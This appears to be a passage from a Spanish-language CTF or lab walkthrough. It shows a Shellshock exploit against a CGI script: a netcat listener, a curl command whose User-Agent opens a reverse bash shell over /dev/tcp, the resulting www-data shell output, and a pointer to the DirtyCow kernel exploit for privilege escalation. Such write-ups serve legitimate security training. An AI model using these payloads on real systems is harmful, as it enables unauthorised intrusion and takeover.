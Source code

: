 Veremos que si funciona y nos muestra todo el archivo de `passwd`, por lo que ahora sabiendo esto nos haremos una `Reverse Shell`...

Primero estaremos a la escucha...

```shell
nc -lvnp <PORT>
```

```shell
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" http://192.168.5.156/cgi-bin/test
```

Info:

```
listening on [any] 7777 ...
connect to [192.168.5.129] from (UNKNOWN) [192.168.5.156] 56194
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$
```

Y ya lo tendriamos, ahora nos exportamos los terminos para poder sanitizarla un poco...

```shell
export TERM=xterm
```

Si hacemos lo sigiente...

```shell
uname -a
```

o

```shell
uname -r
```

Nos mostrara lo siguiente...

```
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

```
3.2.0-23-generic
```

Por lo que ya sabemos que es vulnerable con el famoso exploit del kernel de `DirtyCow`, por lo que nos vamos a la siguiente URL para descargarnos el exploit y depues seguimos los siguientes pasos...

URL = https://www.exploit-db.com/exploits/40839

```
40839.c
```

Maquina `Host`:
